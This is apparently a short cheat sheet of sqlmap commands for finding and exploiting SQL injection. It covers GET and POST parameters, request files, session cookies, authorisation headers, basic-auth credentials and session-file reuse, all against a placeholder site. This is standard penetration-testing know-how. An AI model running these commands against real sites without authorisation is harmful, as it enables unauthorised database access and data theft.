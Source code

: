 # SQLMAP HELP DESK 
## Simple Usage
If you don’t know anything about the target site then use the normal command first, Observe if the SQLMap found something juicy for you

```bash
sqlmap -u “https://target_site.com/page/”
```

## Automatic GET request parameter
```bash
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”
```
## Specify the GET request parameters to Exploit
You can specify on which parameter you want to check or exploit the sql injection using just “-p” flag.
```bash
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2” -p p1
```
## Use POST requests (Test All parameters)
```bash
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2"
```
## SQLMap Request file as input
You can specify a request file containing the HTTP request, You can get it quickly from BurpSuite.

## sqlmap -r request.txt
Here you can specify the targeted parameter or sqlmap will recognize and will test for all the parameters found.

## Use Authenticated Session With Cookie
```bash
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --cookie="Session_Cookie_Value"
```
## Use Authenticated Session with Auth Headers
```bash
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --headers="Authorization: Basic YWxhZGRpbjpvcGVuc2VzYW1l"
```
## Basic Authentication
```bash
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --auth-type=basic --auth-cred=username:password
```
## Use Previously created Session as SQLmap input (-s)
If you got SQL injection positive somewhere, then sqlmap will automatically create a session file(.sqlite) for later use. Now, If you want to try some other commands later, you can use the session file directly (It will save your time to re-try all the possible payloads and identify the vulnerability and all.)
```bash
sqlmap -u “https://target_site.com/page?p1=value1" -s SESSION-FILE.sqlite --dbs
```
You can use this file from the home path of the SQLMap tool’s output directory.
